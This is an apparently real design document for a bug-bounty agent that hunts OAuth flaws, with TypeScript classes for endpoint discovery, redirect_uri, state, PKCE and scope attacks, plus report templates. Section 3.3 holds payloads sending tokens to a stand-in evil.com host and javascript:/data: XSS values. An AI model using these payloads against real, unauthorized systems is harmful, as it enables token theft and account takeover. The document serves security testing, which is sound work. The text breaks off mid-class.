

# OAuth Hunter Agent - Complete Architecture & Implementation Plan

## Executive Summary

The OAuth Hunter is the **#1 priority agent for 2025** with an average bounty of **$4,800** (vs $2,900 for redirects). This document provides a complete architecture design and implementation roadmap for building a production-grade OAuth vulnerability detection system.

---

## 1. Architecture Overview

### 1.1 High-Level Design



### 1.2 Core Components

1. **Discovery Engine** - Finds OAuth endpoints and flows
2. **Attack Vector Modules** - 4 specialized testers
3. **Validation Engine** - Confirms vulnerabilities
4. **Learning System** - Qdrant + pattern recognition
5. **Reporting Pipeline** - PoC generation + H1 submission

---

## 2. Data Models

### 2.1 OAuth Endpoint Model

```typescript
interface OAuthEndpoint {
  id: string;
  url: string;
  type: 'authorization' | 'token' | 'userinfo' | 'jwks' | 'discovery';
  discoveryMethod: 'manual' | 'wayback' | 'nuclei' | 'crawl' | 'wellknown';
  parameters: OAuthParameter[];
  headers: Record<string, string>;
  responseType: 'code' | 'token' | 'id_token' | 'hybrid';
  grantType: 'authorization_code' | 'implicit' | 'client_credentials' | 'password';
  pkceSupport: boolean | 'unknown';
  stateRequired: boolean | 'unknown';
  metadata: {
    clientId?: string;
    redirectUris?: string[];
    scopes?: string[];
    issuer?: string;
    discoveredAt: Date;
  };
}

interface OAuthParameter {
  name: string;
  location: 'query' | 'body' | 'header';
  required: boolean;
  type: string;
  example?: string;
}
```

### 2.2 Vulnerability Model

```typescript
interface OAuthVulnerability {
  id: string;
  type: 'redirect_uri_manipulation' | 'state_fixation' | 'pkce_bypass' | 'scope_escalation';
  subtype?: string; // e.g., 'open_redirect', 'token_theft', 'xss_via_redirect'
  severity: 'low' | 'medium' | 'high' | 'critical';
  confidence: number; // 0-100
  endpoint: OAuthEndpoint;
  
  // Attack details
  payload: {
    parameter: string;
    value: string;
    method: string;
    location: string;
  };
  
  // Evidence
  evidence: {
    request: string;
    response: string;
    redirectedTo?: string;
    tokenLeaked?: boolean;
    stateBypass?: boolean;
    scopeEscalated?: string[];
    screenshots?: string[];
    videoPath?: string;
  };
  
  // Impact analysis
  impact: {
    description: string;
    attackScenario: string;
    dataAtRisk: string[];
    cvssScore?: number;
  };
  
  // Validation
  validated: boolean;
  validationMethod: string;
  falsePositiveRisk: 'low' | 'medium' | 'high';
  
  // Metadata
  discoveredAt: Date;
  testedBy: string;
  sessionId: string;
}
```

### 2.3 Attack Vector Configuration

```typescript
interface AttackVectorConfig {
  name: string;
  enabled: boolean;
  priority: number; // 1-4 (1 = highest)
  payloads: Payload[];
  validationRules: ValidationRule[];
  timeout: number;
  retries: number;
}

interface Payload {
  value: string;
  description: string;
  expectedBehavior: string;
  severity: string;
  tags: string[];
}
```

---

## 3. Class Structure

### 3.1 Main OAuth Hunter Class

```typescript
export class OAuthHunter {
  private discoveryEngine: OAuthDiscoveryEngine;
  private attackVectors: Map<string, AttackVector>;
  private validator: ValidationEngine;
  private duplicateChecker: DuplicateChecker;
  private pocGenerator: OAuthPoCGenerator;
  private memory: QdrantClient;
  private supervisor: Supervisor;
  private rateLimiter: RateLimiter;
  
  constructor(config: OAuthHunterConfig) {
    this.discoveryEngine = new OAuthDiscoveryEngine(config.discovery);
    this.attackVectors = this.initializeAttackVectors(config.vectors);
    this.validator = new ValidationEngine(config.validation);
    this.duplicateChecker = new DuplicateChecker(config.qdrant, config.summarizer);
    this.pocGenerator = new OAuthPoCGenerator();
    this.memory = new QdrantClient(config.qdrant);
    this.supervisor = new Supervisor(config.supervisor);
    this.rateLimiter = new RateLimiter(config.rateLimit);
  }
  
  // Main execution flow
  async hunt(target: string, scope: Scope): Promise<OAuthVulnerability[]> {
    // Phase 1: Discovery
    const endpoints = await this.discoveryEngine.discover(target);
    
    // Phase 2: Classification
    const classified = await this.classifyEndpoints(endpoints);
    
    // Phase 3: Attack
    const vulnerabilities: OAuthVulnerability[] = [];
    for (const endpoint of classified) {
      const vulns = await this.testEndpoint(endpoint);
      vulnerabilities.push(...vulns);
    }
    
    // Phase 4: Validation
    const validated = await this.validateFindings(vulnerabilities);
    
    // Phase 5: Duplicate Check
    const unique = await this.filterDuplicates(validated);
    
    // Phase 6: Store & Learn
    await this.storeFindings(unique);
    
    return unique;
  }
  
  private async testEndpoint(endpoint: OAuthEndpoint): Promise<OAuthVulnerability[]> {
    const results: OAuthVulnerability[] = [];
    
    // Test in priority order
    const vectors = Array.from(this.attackVectors.values())
      .sort((a, b) => a.priority - b.priority);
    
    for (const vector of vectors) {
      if (!vector.enabled) continue;
      
      const vulns = await vector.test(endpoint);
      results.push(...vulns);
      
      // Rate limiting
      await this.rateLimiter.wait();
    }
    
    return results;
  }
}
```

### 3.2 Discovery Engine

```typescript
export class OAuthDiscoveryEngine {
  private tools: DiscoveryTool[];
  
  async discover(target: string): Promise<OAuthEndpoint[]> {
    const endpoints: OAuthEndpoint[] = [];
    
    // Method 1: Well-known endpoints
    endpoints.push(...await this.checkWellKnown(target));
    
    // Method 2: Wayback URLs
    endpoints.push(...await this.searchWayback(target));
    
    // Method 3: Nuclei templates
    endpoints.push(...await this.runNuclei(target));
    
    // Method 4: JavaScript analysis
    endpoints.push(...await this.analyzeJavaScript(target));
    
    // Method 5: Crawling
    endpoints.push(...await this.crawlForOAuth(target));
    
    return this.deduplicateEndpoints(endpoints);
  }
  
  private async checkWellKnown(target: string): Promise<OAuthEndpoint[]> {
    const wellKnownPaths = [
      '/.well-known/openid-configuration',
      '/.well-known/oauth-authorization-server',
      '/oauth/authorize',
      '/oauth/token',
      '/oauth2/authorize',
      '/oauth2/token',
      '/auth/oauth/authorize',
      '/api/oauth/authorize',
    ];
    
    // Test each path and parse responses
    // ...
  }
  
  private async searchWayback(target: string): Promise<OAuthEndpoint[]> {
    // Use waybackurls to find historical OAuth flows
    // Filter for oauth/auth/authorize patterns
    // ...
  }
  
  private async runNuclei(target: string): Promise<OAuthEndpoint[]> {
    // Run nuclei with OAuth templates
    // Parse results into OAuthEndpoint objects
    // ...
  }
}
```

### 3.3 Attack Vector: redirect_uri Manipulation

```typescript
export class RedirectUriAttackVector implements AttackVector {
  name = 'redirect_uri_manipulation';
  priority = 1; // Highest priority
  enabled = true;
  
  private payloads: RedirectUriPayload[] = [
    // Open redirect payloads
    { value: 'https://evil.com', type: 'open_redirect', severity: 'high' },
    { value: '//evil.com', type: 'protocol_relative', severity: 'high' },
    { value: '///evil.com', type: 'triple_slash', severity: 'high' },
    
    // Path traversal
    { value: 'https://trusted.com/../evil.com', type: 'path_traversal', severity: 'medium' },
    { value: 'https://trusted.com@evil.com', type: 'at_symbol', severity: 'high' },
    
    // Subdomain takeover
    { value: 'https://nonexistent.trusted.com', type: 'subdomain_takeover', severity: 'critical' },
    
    // XSS via redirect_uri
    { value: 'javascript:alert(1)', type: 'xss_javascript', severity: 'critical' },
    { value: 'data:text/html,<script>alert(1)</script>', type: 'xss_data', severity: 'critical' },
    
    // Token theft
    { value: 'https://evil.com?intercept=', type: 'token_theft', severity: 'critical' },
  ];
  
  async test(endpoint: OAuthEndpoint): Promise<OAuthVulnerability[]> {
    const vulnerabilities: OAuthVulnerability[] = [];
    
    for (const payload of this.payloads) {
      const result = await this.testPayload(endpoint, payload);
      if (result) {
        vulnerabilities.push(result);
      }
    }
    
    return vulnerabilities;
  }
  
  private async testPayload(
    endpoint: OAuthEndpoint,
    payload: RedirectUriPayload
  ): Promise<OAuthVulnerability | null> {
    // Build OAuth authorization URL with malicious redirect_uri
    const testUrl = this.buildAuthUrl(endpoint, payload);
    
    // Make request (with human approval)
    const response = await this.makeRequest(testUrl);
    
    // Analyze response
    if (this.isVulnerable(response, payload)) {
      return this.createVulnerability(endpoint, payload, response);
    }
    
    return null;
  }
  
  private buildAuthUrl(endpoint: OAuthEndpoint, payload: RedirectUriPayload): string {
    const url = new URL(endpoint.url);
    url.searchParams.set('client_id', endpoint.metadata.clientId || 'test');
    url.searchParams.set('redirect_uri', payload.value);
    url.searchParams.set('response_type', 'code');
    url.searchParams.set('scope', 'openid profile');
    url.searchParams.set('state', this.generateState());
    return url.toString();
  }
  
  private isVulnerable(response: any, payload: RedirectUriPayload): boolean {
    // Check if redirect was accepted
    if (response.status === 302 || response.status === 301) {
      const location = response.headers.location;
      
      // Check if redirected to our malicious URL
      if (location && location.includes(payload.value)) {
        return true;
      }
    }
    
    // Check for token in response
    if (payload.type === 'token_theft') {
      return this.checkForTokenLeakage(response);
    }
    
    return false;
  }
}
```

### 3.4 Attack Vector: State Parameter Issues

```typescript
export class StateParameterAttackVector implements AttackVector {
  name = 'state_parameter_issues';
  priority = 2;
  enabled = true;
  
  async test(endpoint: OAuthEndpoint): Promise<OAuthVulnerability[]> {
    const vulnerabilities: OAuthVulnerability[] = [];
    
    // Test 1: Missing state validation
    const missingState = await this.testMissingState(endpoint);
    if (missingState) vulnerabilities.push(missingState);
    
    // Test 2: Predictable state tokens
    const predictable = await this.testPredictableState(endpoint);
    if (predictable) vulnerabilities.push(predictable);
    
    // Test 3: State fixation
    const fixation = await this.testStateFixation(endpoint);
    if (fixation) vulnerabilities.push(fixation);
    
    // Test 4: State reuse
    const reuse = await this.testStateReuse(endpoint);
    if (reuse) vulnerabilities.push(reuse);
    
    return vulnerabilities;
  }
  
  private async testMissingState(endpoint: OAuthEndpoint): Promise<OAuthVulnerability | null> {
    // Build OAuth URL without state parameter
    const urlWithoutState = this.buildAuthUrl(endpoint, { includeState: false });
    
    // Make request
    const response = await this.makeRequest(urlWithoutState);
    
    // Check if request was accepted (vulnerability)
    if (response.status === 302 && !response.error) {
      return {
        type: 'state_fixation',
        subtype: 'missing_state_validation',
        severity: 'high',
        confidence: 95,
        endpoint,
        payload: {
          parameter: 'state',
          value: '(omitted)',
          method: 'GET',
          location: 'query'
        },
        evidence: {
          request: urlWithoutState,
          response: JSON.stringify(response),
          stateBypass: true
        },
        impact: {
          description: 'OAuth flow accepts requests without state parameter, enabling CSRF attacks',
          attackScenario: 'Attacker can initiate OAuth flow and trick victim into completing it',
          dataAtRisk: ['user_tokens', 'account_access']
        },
        validated: false,
        validationMethod: 'pending',
        falsePositiveRisk: 'low',
        discoveredAt: new Date(),
        testedBy: 'state_parameter_tester',
        sessionId: this.sessionId
      };
    }
    
    return null;
  }
  
  private async testPredictableState(endpoint: OAuthEndpoint): Promise<OAuthVulnerability | null> {
    // Generate multiple OAuth flows and collect state tokens
    const states: string[] = [];
    for (let i = 0; i < 10; i++) {
      const state = await this.initiateFlow(endpoint);
      states.push(state);
    }
    
    // Analyze for patterns
    const entropy = this.calculateEntropy(states);
    const sequential = this.checkSequential(states);
    const timestamp = this.checkTimestampBased(states);
    
    if (entropy < 50 || sequential || timestamp) {
      return this.createPredictableStateVuln(endpoint, states, { entropy, sequential, timestamp });
    }
    
    return null;
  }
}
```

### 3.5 Attack Vector: PKCE Bypass

```typescript
export class PKCEBypassAttackVector implements AttackVector {
  name = 'pkce_bypass';
  priority = 3;
  enabled = true;
  
  async test(endpoint: OAuthEndpoint): Promise<OAuthVulnerability[]> {
    const vulnerabilities: OAuthVulnerability[] = [];
    
    // Test 1: Missing code_challenge
    const missingChallenge = await this.testMissingCodeChallenge(endpoint);
    if (missingChallenge) vulnerabilities.push(missingChallenge);
    
    // Test 2: Weak code_verifier
    const weakVerifier = await this.testWeakCodeVerifier(endpoint);
    if (weakVerifier) vulnerabilities.push(weakVerifier);
    
    // Test 3: Downgrade to non-PKCE
    const downgrade = await this.testPKCEDowngrade(endpoint);
    if (downgrade) vulnerabilities.push(downgrade);
    
    // Test 4: code_challenge_method manipulation
    const methodManip = await this.testChallengeMethodManipulation(endpoint);
    if (methodManip) vulnerabilities.push(methodManip);
    
    return vulnerabilities;
  }
  
  private async testMissingCodeChallenge(endpoint: OAuthEndpoint): Promise<OAuthVulnerability | null> {
    // If endpoint claims PKCE support, test without code_challenge
    if (!endpoint.pkceSupport) return null;
    
    const urlWithoutPKCE = this.buildAuthUrl(endpoint, { includePKCE: false });
    const response = await this.makeRequest(urlWithoutPKCE);
    
    // If accepted, PKCE is not enforced
    if (response.status === 302 && response.code) {
      return this.createPKCEBypassVuln(endpoint, 'missing_code_challenge', response);
    }
    
    return null;
  }
  
  private async testPKCEDowngrade(endpoint: OAuthEndpoint): Promise<OAuthVulnerability | null> {
    // Test if we can downgrade from S256 to plain
    const tests = [
      { method: 'plain', verifier: 'simple_verifier' },
      { method: 'none', verifier: '' },
      { method: '', verifier: 'test' }
    ];
    
    for (const test of tests) {
      const url = this.buildAuthUrl(endpoint, {
        code_challenge_method: test.method,
        code_verifier: test.verifier
      });
      
      const response = await this.makeRequest(url);
      if (this.isSuccessfulDowngrade(response, test)) {
        return this.createDowngradeVuln(endpoint, test, response);
      }
    }
    
    return null;
  }
}
```

### 3.6 Attack Vector: Scope Escalation

```typescript
export class ScopeEscalationAttackVector implements AttackVector {
  name = 'scope_escalation';
  priority = 4;
  enabled = true;
  
  private privilegedScopes = [
    'admin', 'write', 'delete', 'manage', 'sudo',
    'user:admin', 'repo:admin', 'org:admin',
    'full_access', 'all', '*'
  ];
  
  async test(endpoint: OAuthEndpoint): Promise<OAuthVulnerability[]> {
    const vulnerabilities: OAuthVulnerability[] = [];
    
    // Test 1: Request elevated scopes
    const elevated = await this.testElevatedScopes(endpoint);
    vulnerabilities.push(...elevated);
    
    // Test 2: Scope confusion
    const confusion = await this.testScopeConfusion(endpoint);
    if (confusion) vulnerabilities.push(confusion);
    
    // Test 3: Missing scope validation
    const missingValidation = await this.testMissingScopeValidation(endpoint);
    if (missingValidation) vulnerabilities.push(missingValidation);
    
    // Test 4: Scope injection
    const injection = await this.testScopeInjection(endpoint);
    vulnerabilities.push(...injection);
    
    return vulnerabilities;
  }
  
  private async testElevatedScopes(endpoint: OAuthEndpoint): Promise<OAuthVulnerability[]> {
    const vulnerabilities: OAuthVulnerability[] = [];
    
    // Try each privileged scope
    for (const scope of this.privilegedScopes) {
      const url = this.buildAuthUrl(endpoint, { scope });
      const response = await this.makeRequest(url);
      
      if (this.scopeWasGranted(response, scope)) {
        vulnerabilities.push(this.createScopeEscalationVuln(endpoint, scope, response));
      }
    }
    
    return vulnerabilities;
  }
  
  private async testScopeConfusion(endpoint: OAuthEndpoint): Promise<OAuthVulnerability | null> {
    // Test scope parameter manipulation
    const confusionTests = [
      'read write', // Space-separated
      'read,write', // Comma-separated
      'read%20write', // URL-encoded
      'read+write', // Plus-separated
      ['read', 'write'], // Array
    ];
    
    for (const scopeTest of confusionTests) {
      const url = this.buildAuthUrl(endpoint, { scope: scopeTest });
      const response = await this.makeRequest(url);
      
      if (this.detectScopeConfusion(response, scopeTest)) {
        return this.createScopeConfusionVuln(endpoint, scopeTest, response);
      }
    }
    
    return null;
  }
}
```

---

## 4. Tool Integration

### 4.1 Required Tools

```typescript
interface OAuthToolkit {
  // HTTP client with redirect control
  httpClient: {
    name: 'httpx' | 'axios';
    features: ['no-follow-redirects', 'custom-headers', 'proxy-support'];
  };
  
  // Historical data
  waybackUrls: {
    command: 'waybackurls';
    filters: ['oauth', 'authorize', 'token'];
  };
  
  // Vulnerability scanner
  nuclei: {
    templates: ['oauth-*', 'oidc-*'];
    severity: ['critical', 'high', 'medium'];
  };
  
  // Custom fuzzer
  oauthFuzzer: {
    payloads: PayloadDatabase;
    mutations: MutationEngine;
  };
  
  // Callback testing
  collaborator: {
    type: 'burp' | 'interactsh';
    endpoint: string;
  };
}
```

### 4.2 Tool Registry Integration

```typescript
// Register OAuth-specific tools
export function registerOAuthTools(registry: ToolRegistry): void {
  registry.register({
    name: 'oauth_discover',
    description: 'Discover OAuth endpoints using multiple methods',
    execute: async (input: { target: string }) => {
      const engine = new OAuthDiscoveryEngine();
      return await engine.discover(input.target);
    }
  });
  
  registry.register({
    name: 'oauth_test_redirect_uri',
    description: 'Test redirect_uri parameter for vulnerabilities',
    execute: async (input: { endpoint: OAuthEndpoint }) => {
      const tester = new RedirectUriAttackVector();
      return await tester.test(input.endpoint);
    }
  });
  
  registry.register({
    name: 'oauth_test_state',
    description: 'Test state parameter implementation',
    execute: async (input: { endpoint: OAuthEndpoint }) => {
      const tester = new StateParameterAttackVector();
      return await tester.test(input.endpoint);
    }
  });
  
  registry.register({
    name: 'oauth_test_pkce',
    description: 'Test PKCE implementation for bypasses',
    execute: async (input: { endpoint: OAuthEndpoint }) => {
      const tester = new PKCEBypassAttackVector();
      return await tester.test(input.endpoint);
    }
  });
  
  registry.register({
    name: 'oauth_test_scope',
    description: 'Test scope validation and escalation',
    execute: async (input: { endpoint: OAuthEndpoint }) => {
      const tester = new ScopeEscalationAttackVector();
      return await tester.test(input.endpoint);
    }
  });
}
```

---

## 5. Memory & Learning Integration

### 5.1 Qdrant Collections

```typescript
// Collection: oauth_endpoints
interface OAuthEndpointVector {
  id: string;
  vector: number[]; // Embedding of endpoint characteristics
  payload: {
    url: string;
    type: string;
    provider: string; // 'google', 'github', 'custom', etc.
    parameters: string[];
    vulnerabilities_found: string[];
    success_rate: number;
    last_tested: Date;
  };
}

// Collection: oauth_vulnerabilities
interface OAuthVulnVector {
  id: string;
  vector: number[]; // Embedding of vulnerability description
  payload: {
    type: string;
    subtype: string;
    severity: string;
    target: string;
    payload_used: string;
    success: boolean;
    bounty_amount?: number;
    reported_at?: Date;
    accepted: boolean;
  };
}

// Collection: oauth_patterns
interface OAuthPatternVector {
  id: string;
  vector: number[]; // Embedding of attack pattern
  payload: {
    pattern_name: string;
    success_rate: number;
    targets_affected: string[];
    payloads: string[];
    indicators: string[];
    learned_from: string[]; // HTB machines, real targets
  };
}
```

### 5.2 Learning Pipeline

```typescript
export class OAuthLearningSystem {
  private qdrant: QdrantClient;
  private embedder: EmbeddingService;
  
  async learnFromSuccess(vuln: OAuthVulnerability, bountyAmount?: number): Promise<void> {
    // Store successful vulnerability
    await this.storeVulnerability(vuln, bountyAmount);
    
    // Extract patterns
    const patterns = this.extractPatterns(vuln);
    await this.storePatterns(patterns);
    
    // Update endpoint knowledge
    await this.updateEndpointKnowledge(vuln.endpoint, vuln);
    
    // Generate new payload variations
    const variations = this.generatePayloadVariations(vuln.payload);
    await this.storePayloadVariations(variations);
  }
  
  async suggestNextTest(endpoint: OAuthEndpoint): Promise<AttackSuggestion[]> {
    // Search for similar endpoints
    const similar = await this.findSimilarEndpoints(endpoint);
    
    // Get successful patterns for similar endpoints
    const patterns = await this.getSuccessfulPatterns(similar);
    
    // Rank by success probability
    return this.rankSuggestions(patterns, endpoint);
  }
  
  private async findSimilarEndpoints(endpoint: OAuthEndpoint): Promise<OAuthEndpoint[]> {
    const embedding = await this.embedder.embed(JSON.stringify(endpoint));
    const results = await this.qdrant.search(embedding, 10);
    return results.map(r => r.payload as OAuthEndpoint);
  }
}
```

---

## 6. Proof-of-Concept Generation

### 6.1 OAuth PoC Generator

```typescript
export class OAuthPoCGenerator extends PoCGenerator {
  generate(vuln: OAuthVulnerability): PoC {
    const template = this.selectTemplate(vuln.type);
    
    return {
      title: this.generateTitle(vuln),
      vulnerability: vuln.type,
      severity: vuln.severity,
      steps: this.generateSteps(vuln),
      code: this.generateCode(vuln),
      screenshots: vuln.evidence.screenshots,
      videoPath: vuln.evidence.videoPath,
      impact: this.generateImpact(vuln),
      remediation: this.generateRemediation(vuln),
      cvssScore: this.calculateCVSS(vuln),
      references: this.getReferences(vuln.type)
    };
  }
  
  private generateSteps(vuln: OAuthVulnerability): string[] {
    switch (vuln.type) {
      case 'redirect_uri_manipulation':
        return this.generateRedirectUriSteps(vuln);
      case 'state_fixation':
        return this.generateStateFixationSteps(vuln);
      case 'pkce_bypass':
        return this.generatePKCEBypassSteps(vuln);
      case 'scope_escalation':
        return this.generateScopeEscalationSteps(vuln);
      default:
        return [];
    }
  }
  
  private generateRedirectUriSteps(vuln: OAuthVulnerability): string[] {
    return [
      `Navigate to the OAuth authorization endpoint: ${vuln.endpoint.url}`,
      `Modify the redirect_uri parameter to: ${vuln.payload.value}`,
      `Complete the OAuth flow (login if required)`,
      `Observe that the application redirects to: ${vuln.evidence.redirectedTo}`,
      vuln.evidence.tokenLeaked ? 
        'Note that the authorization code/token is leaked to the attacker-controlled domain' : 
        'The redirect is accepted without proper validation'
    ];
  }
  
  private generateCode(vuln: OAuthVulnerability): string {
    const baseUrl = vuln.endpoint.url;
    const params = new URLSearchParams({
      client_id: vuln.endpoint.metadata.clientId || 'CLIENT_ID',
      redirect_uri: vuln.payload.value,
      response_type: vuln.endpoint.responseType || 'code',
      scope: vuln.endpoint.metadata.scopes?.join(' ') || 'openid profile',
      state: 'random_state_value'
    });
    
    return `
# Proof of Concept - ${vuln.type}

## Vulnerable Request
\`\`\`http
GET ${baseUrl}?${params.toString()} HTTP/1.1
Host: ${new URL(baseUrl).host}
User-Agent: Mozilla/5.0
\`\`\`

## Expected Behavior
The application should reject the malicious redirect_uri and show an error.

## Actual Behavior
The application accepts the redirect_uri and redirects to: ${vuln.evidence.redirectedTo}

${vuln.evidence.tokenLeaked ? `
## Token Leakage
The authorization code/token is leaked in the redirect:
\`\`\`
${vuln.evidence.redirectedTo}
\`\`\`
` : ''}

## cURL Command
\`\`\`bash
curl -v '${baseUrl}?${params.toString()}'
\`\`\`
    `.trim();
  }
  
  private generateImpact(vuln: OAuthVulnerability): string {
    const impacts = {
      redirect_uri_manipulation: `
This vulnerability allows an attacker to:
1. Steal authorization codes/tokens by redirecting to attacker-controlled domains
2. Perform phishing attacks using the trusted OAuth provider
3. Bypass authentication and gain unauthorized access to user accounts
4. Execute XSS attacks if JavaScript/data URIs are accepted

**Attack Scenario:**
An attacker crafts a malicious OAuth URL with their redirect_uri and sends it to victims.
When victims complete the OAuth flow, their authorization code/token is sent to the attacker's server.
The attacker can then exchange this code for an access token and impersonate the victim.
      `,
      state_fixation: `
This vulnerability allows an attacker to:
1. Perform CSRF attacks on the OAuth flow
2. Force victims to authenticate with attacker-controlled accounts
3. Link victim's identity to attacker's account
4. Bypass CSRF protections in the OAuth implementation

**Attack Scenario:**
An attacker initiates an OAuth flow and obtains a valid authorization URL.
The attacker tricks a victim into clicking this URL (via phishing, XSS, etc.).
The victim completes the OAuth flow, but the resulting session is linked to the attacker's account.
      `,
      pkce_bypass: `
This vulnerability allows an attacker to:
1. Intercept authorization codes in public clients (mobile/SPA apps)
2. Exchange stolen codes for access tokens
3. Bypass the security benefits of PKCE
4. Perform authorization code injection attacks

**Attack Scenario:**
An attacker intercepts an authorization code (via network sniffing, malware, etc.).
Without PKCE enforcement, the attacker can exchange this code for an access token.
The attacker gains unauthorized access to the victim's account.
      `,
      scope_escalation: `
This vulnerability allows an attacker to:
1. Request and obtain elevated privileges beyond intended access
2. Access sensitive user data or administrative functions
3. Perform unauthorized actions on behalf of users
4. Bypass authorization controls

**Attack Scenario:**
An attacker requests elevated scopes (admin, write, delete) during OAuth flow.
The application grants these scopes without proper validation.
The attacker obtains an access token with elevated privileges.
The attacker can now perform administrative actions or access sensitive data.
      `
    };
    
    return impacts[vuln.type] || vuln.impact.description;
  }
  
  private calculateCVSS(vuln: OAuthVulnerability): number {
    // CVSS 3.1 scoring for OAuth vulnerabilities
    const baseScores = {
      redirect_uri_manipulation: 8.1, // High
      state_fixation: 7.4, // High
      pkce_bypass: 7.5, // High
      scope_escalation: 8.8 // High/Critical
    };
    
    let score = baseScores[vuln.type] || 5.0;
    
    // Adjust based on evidence
    if (vuln.evidence.tokenLeaked) score += 1.0;
    if (vuln.evidence.scopeEscalated?.includes('admin')) score += 0.5;
    
    return Math.min(score, 10.0);
  }
}
```

### 6.2 Report Templates

```typescript
export const OAUTH_REPORT_TEMPLATES = {
  redirect_uri_manipulation: `
# OAuth redirect_uri Manipulation Vulnerability

## Summary
An OAuth redirect_uri manipulation vulnerability was discovered that allows attackers to steal authorization codes/tokens by redirecting users to attacker-controlled domains.

## Vulnerability Details
**Authorization Endpoint:** {{endpoint_url}}
**Vulnerable Parameter:** redirect_uri
**Severity:** {{severity}}
**CVSS Score:** {{cvss_score}}

## Steps to Reproduce
{{steps}}

## Proof of Concept
{{poc_code}}

## Impact
{{impact}}

## Remediation
1. Implement strict whitelist validation for redirect_uri values
2. Only allow pre-registered redirect URIs
3. Validate redirect_uri against exact matches (no wildcards)
4. Reject redirect_uri values with suspicious patterns (e.g., @, //, javascript:)
5. Implement PKCE for public clients
6. Use state parameter for CSRF protection

## References
- [RFC 6749 - OAuth 2.0](https://tools.ietf.org/html/rfc6749)
- [OAuth 2.0 Security Best Current Practice](https://tools.ietf.org/html/draft-ietf-oauth-security-topics)
- [OWASP OAuth Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OAuth_Cheat_Sheet.html)
  `,
  
  state_fixation: `
# OAuth State Parameter CSRF Vulnerability

## Summary
The OAuth implementation does not properly validate the state parameter, allowing CSRF attacks on the OAuth flow.

## Vulnerability Details
**Authorization Endpoint:** {{endpoint_url}}
**Issue:** {{issue_description}}
**Severity:** {{severity}}
**CVSS Score:** {{cvss_score}}

## Steps to Reproduce
{{steps}}

## Proof of Concept
{{poc_code}}

## Impact
{{impact}}

## Remediation
1. Always require and validate the state parameter
2. Generate cryptographically random state values
3. Bind state to user session
4. Implement state expiration (5-10 minutes)
5. Reject requests with missing or invalid state
6. Use HMAC or signed state tokens

## References
- [RFC 6749 Section 10.12 - CSRF Protection](https://tools.ietf.org/html/rfc6749#section-10.12)
- [OAuth 2.0 Threat Model](https://tools.ietf.org/html/rfc6819)
  `,
  
  pkce_bypass: `
# OAuth PKCE Bypass Vulnerability

## Summary
The OAuth implementation does not properly enforce PKCE (Proof Key for Code Exchange), allowing authorization code interception attacks.

## Vulnerability Details
**Authorization Endpoint:** {{endpoint_url}}
**Token Endpoint:** {{token_endpoint}}
**Issue:** {{issue_description}}
**Severity:** {{severity}}
**CVSS Score:** {{cvss_score}}

## Steps to Reproduce
{{steps}}

## Proof of Concept
{{poc_code}}

## Impact
{{impact}}

## Remediation
1. Enforce PKCE for all public clients (mobile apps, SPAs)
2. Require code_challenge parameter in authorization requests
3. Validate code_verifier in token requests
4. Only accept S256 challenge method (reject 'plain')
5. Reject requests without PKCE parameters for public clients
6. Implement proper client authentication for confidential clients

## References
- [RFC 7636 - PKCE](https://tools.ietf.org/html/rfc7636)
- [OAuth 2.0 for Native Apps](https://tools.ietf.org/html/rfc8252)
  `,
  
  scope_escalation: `
# OAuth Scope Escalation Vulnerability

## Summary
The OAuth implementation does not properly validate requested scopes, allowing attackers to obtain elevated privileges.

## Vulnerability Details
**Authorization Endpoint:** {{endpoint_url}}
**Escalated Scopes:** {{escalated_scopes}}
**Severity:** {{severity}}
**CVSS Score:** {{cvss_score}}

## Steps to Reproduce
{{steps}}

## Proof of Concept
{{poc_code}}

## Impact
{{impact}}

## Remediation
1. Implement strict scope validation
2. Whitelist allowed scopes per client
3. Require user consent for sensitive scopes
4. Validate scopes at token endpoint
5. Implement scope hierarchy and inheritance rules
6. Log and monitor scope escalation attempts
7. Use least privilege principle for default scopes

## References
- [RFC 6749 Section 3.3 - Access Token Scope](https://tools.ietf.org/html/rfc6749#section-3.3)
- [OAuth 2.0 Scope Best Practices](https://www.oauth.com/oauth2-servers/scope/)
  `
};
```

---

## 7. CrewAI Supervisor Integration

### 7.1 Supervisor Workflow

```typescript
export class OAuthSupervisorWorkflow {
  private supervisor: Supervisor;
  private oauthHunter: OAuthHunter;
  private humanTask: HumanTask;
  
